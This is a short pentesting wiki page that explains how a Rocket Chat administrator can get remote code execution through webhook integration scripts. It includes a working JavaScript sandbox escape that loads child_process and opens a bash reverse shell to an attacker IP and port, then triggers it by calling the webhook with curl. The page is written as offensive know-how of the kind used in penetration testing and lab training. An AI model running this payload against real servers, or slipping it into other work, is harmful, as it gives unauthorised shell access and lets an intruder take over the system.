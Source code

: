 # Rocket Chat



## RCE

If you are admin inside Rocket Chat you can get RCE.

- Got to **`Integrations`** and select **`New Integration`** and choose any: **`Incoming WebHook`** or **`Outgoing WebHook`**.
  - `/admin/integrations/incoming`

![[../../images/image (266).png|]]


- According to the [[https://docs.rocket.chat/guides/administration/admin-panel/integrations), both use ES2015 / ECMAScript 6 ([basically JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c)) to process the data. So lets get a [rev shell for javascript](../../generic-hacking/reverse-shells/linux.md#nodejs|docs]] like:

```javascript
const require = console.log.constructor("return process.mainModule.require")()
const { exec } = require("child_process")
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```
```
- Configure the WebHook (the channel and post as username must exists):

![[../../images/image (905).png|]]


- Configure WebHook script:

![[../../images/image (572).png|]]


- Save changes
- Get the generated WebHook URL:

![[../../images/image (937).png|]]


- Call it with curl and you shuold receive the rev shell




